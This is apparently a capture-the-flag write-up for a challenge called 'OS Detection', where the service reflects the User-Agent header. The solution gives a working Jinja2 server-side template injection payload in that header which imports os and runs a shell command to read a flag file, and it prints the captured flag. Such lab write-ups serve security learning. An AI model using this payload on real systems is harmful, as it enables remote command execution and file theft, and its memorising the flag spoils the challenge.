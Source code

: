 # OS Detection

Solved by: @vicevirus

## Question:
A new service has been deployed that uses advanced algorithms to detect your Operating System. What an invasion of privacy! Can you pwn it?

## Solution:
SSTI on User-agent:
```
User-Agent: {{self.__init__.__globals__.__builtins__.__import__('os').popen('cat /app/flag/..2024_12_07_19_19_35.1949737782/flag.txt').read()}}
```

**Flag:** `PP{h4ck3r-OS-d3t3ct3d::oeCeuXQJg6eM}`
